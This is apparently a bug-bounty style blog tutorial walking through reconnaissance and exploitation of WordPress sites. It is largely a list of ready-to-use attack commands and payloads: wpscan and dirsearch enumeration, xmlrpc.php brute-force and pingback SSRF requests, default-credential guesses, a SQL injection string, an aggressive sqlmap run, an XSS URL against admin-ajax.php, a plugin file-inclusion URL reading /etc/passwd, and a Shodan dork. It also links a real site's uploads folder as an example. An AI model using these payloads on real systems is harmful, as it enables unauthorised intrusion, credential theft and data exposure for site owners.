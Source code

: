 what to do if you discovered Wordpress CMS

great story would change your recon and exploiting methodology forever

ready lets go:

to discover wordpress there are many was but we are gonna use wapalyzer

![](https://miro.medium.com/v2/resize:fit:700/1*pWK96tEk2hG3GajMt8nH0g.jpeg)

wordpress via wapalyzer

after collecting wordpress sites then lets try to find vulnerabilities

first use wpscan but first you must register and take api from [https://wpscan.com/register/](https://wpscan.com/register/)

once you got the api and installed wpscan in your machine lets start

wpscan --url https://target.com --disable-tls-checks --api-token <api-token> -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force

you are gonna see sentstive files and the version of wordpress moreover CVES and vulnerabilities , you should take the title of it and start searching for exploring it

if you found xmprpc.php file from wpscan you can exploit it by making dos attack or no rate limit on fuzzing the password or SSRF as follows but you must change the request method to post first

![](https://miro.medium.com/v2/resize:fit:700/1*ydoJmvWqpKmkWeikIkfimQ.png)

<methodCall>  
<methodName>system.listMethods</methodName>  
<params></params>  
</methodCall>

![](https://miro.medium.com/v2/resize:fit:700/1*X4Nx5ISGJau_TsNWltNOdA.jpeg)

now lets try to fuzz the username and password without rate limit by intruder or turbo

<methodCall>  
<methodName>wp.getUsersBlogs</methodName>  
<params>  
<param><value>admin</value></param>  
<param><value>pass</value></param>  
</params>  
</methodCall>

![](https://miro.medium.com/v2/resize:fit:700/1*yaR9NbtMwvwLM2iSjoSf4A.png)

once you reached the correct password the response would be like that

![](https://miro.medium.com/v2/resize:fit:700/1*aQfTTHQzAI0GCPel2qhYZQ.png)

now let’s try SSRF via xmlrpc.php

replace burpcollab.net with your burpsuite collaborator and site.com with target site

<methodCall>  
<methodName>pingback.ping</methodName>  
<params><param>  
<value><string> https://burpcollab.net </string></value>  
</param><param><value><string> http://site.com /string>  
</value></param></params>  
</methodCall>

![](https://miro.medium.com/v2/resize:fit:700/1*eqdQNNawbL8KB4gyvug-GQ.png)

another thing is fuzzing wordpress as you can find information disclosure

dirsearch  -u https://target.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json

via /wp-json/wp/v1/users or /wp-json/wp/v2/users

or /author-sitemap.xml

see this [https://hackerone.com/reports/1784999](https://hackerone.com/reports/1784999)

check also /wp- content/uploads/ and if 403 forbidden or not found 404 then try to bypass it by /wp-content/UPLOADS/ or /wp-content/UpLoAds/

see this [https://www.ciel.org/wp-content/uploads/](https://www.ciel.org/wp-content/uploads/)

try to search for registration page and if you didn’t find then try to do that

make post request with /register path and change the content-type from application/json to application/x-www-form-urlencoded and you can register or at least there is information disclosure

in the login page try first to check common credentials as admin:admin or admin:password or test:test or root:toor or admin:pa$$w0rd and if failed then check the rate limit if there is no rate limit then report it now as attacker can send the form to vps and fuzz the password easily in one day

now let’s try sql injection in login page in username and password forms

' OR 1=1;- -

also you can intercept the login request with burpsuite and save the request in file as

![](https://miro.medium.com/v2/resize:fit:700/1*AYOLgNM4TrYqXhmt6C6anQ.jpeg)

after saving the file use sqlmap as

sqlmap -r request.txt --risk 3 --level 5 --random-agent 

you can also try response manipulation when login as if you failed to login and response like 403 Forbidden then change it to 200 OK and the body can be failed => change it to => succeeded

if you found admin-ajax.php then try xss

site.com/wp-admin/admin-ajax.php?action=tie_get_user_weather&options={'location'%3A'Cairo'%2C'units'%3A'C'%2C'forecast_days'%3A'5<%2Fscript><script>alert(document.domain)<%2Fscript>custom_name'%3A'Cairo'%2C'animated'%3A'true'}

and also try rce

http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

use this dork in shodan.io to discover senstive info

html:"you don't have to use the web site, you can"

best regards,

hossam shady


